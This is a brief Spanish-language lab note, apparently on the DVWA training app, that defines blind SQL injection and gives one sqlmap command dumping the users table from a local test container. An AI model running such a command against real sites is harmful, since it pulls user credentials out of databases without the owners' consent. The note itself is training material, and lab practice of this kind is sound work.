

# SQL Injection Blind

#### Que es una injeccion sql ciega ?
Una inyección SQL manipula una consulta SQL estándar para explotar vulnerabilidades en la base de datos subyacente de la aplicación. la diferencia con una injeccion sql normal es que no vemos resultados a simple vista.

---


Usando  **sqlmap** se obtienen resultados utiles, logrando evadir el factor ciego de esta injeccion sql.

``` bash
sqlmap -u "http://172.17.0.2:80/vulnerabilities/sqli/?id=1" -D dvwa -T users --dump --batch --level=4 --risk=3"
